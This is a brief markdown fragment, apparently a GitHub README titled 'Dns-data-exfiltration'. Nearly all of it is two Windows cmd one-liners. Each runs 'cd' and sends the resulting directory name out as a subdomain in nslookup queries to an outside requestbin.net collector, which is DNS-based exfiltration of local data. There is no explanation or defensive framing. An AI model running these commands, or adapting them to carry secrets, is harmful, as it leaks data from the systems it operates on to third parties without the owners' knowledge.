 # Dns-data-exfiltration

for /f %i in ('cd') do nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net
for /f "tokens=1" %i IN ('cd') do (nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net)
